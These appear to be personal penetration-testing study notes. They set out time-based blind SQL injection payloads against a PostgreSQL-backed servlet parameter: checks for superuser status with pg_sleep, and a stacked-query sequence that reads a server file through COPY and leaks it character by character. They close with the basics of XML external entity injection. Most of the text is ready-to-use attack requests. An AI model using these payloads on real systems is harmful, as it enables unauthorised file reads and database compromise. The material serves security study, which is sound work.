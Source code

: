 AM I DATABASE ADMIN QUERY: SELECT current_setting('is_superuser');

GET
/servlet/asdf?ForMasRange=1&userId=1;SELECT+case+when+(SELECT+current_setting($$is_superuser$$))=$$on$$+then+pg_sleep(10)+end;--+

;SELECT+case+when+(SELECT+current_setting($$is_superuser$$))=$$on$$+then+pg_sleep(10)+end;--+

;SELECT+case+when+(SELECT+current_setting(is_superuser))=on+then+pg_sleep(10)+end;--+

SELECT CASE WHEN (SOMETHING)=1 THEN else statement END;--+ 

ACCESSING FILESYSTEM in postgresql
===================================
COPY <table_name> from <file_name>
Listing 152 - Reading content from files
COPY <table_name> to <file_name>
Listing 153 - Writing content to files

CREATE temp table awa (content text); # 1. Create temporary table
COPY awa from $$c:\awa.txt$$;		   # 2. copy data from file to table
SELECT content from awa;			   # 3. select * from table
DROP table awa                        # 4. drop the table

Query:

GET
/servlet/asdf?ForMasRange=1&userId=1;create+temp+table+awa+(content+text);
copy+awa+from+$$c:\awa.txt$$;
select+case+when(ascii(substr((select+content+from+awa),1,1))=104)+then+pg_sleep(10)+end;--+ HTTP/1.0

--------------------
XML INJECTION xxe:
--------------------

Content-Type: application/xml

exists EXTERNAL and INTERNAL entities ..

ENTITIES:

INTERNAL ENTITY: <!ENTITY name "value"> 

USAGE:

<?xml version="1.0" ?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname "Replaced">
]>
<Contact>
<lastName>&lastname;</lastName>
<firstName>Tom</firstName>
</Contact>

EXTERNAL ENTITY: <!ENTITY name SYSTEM "value">
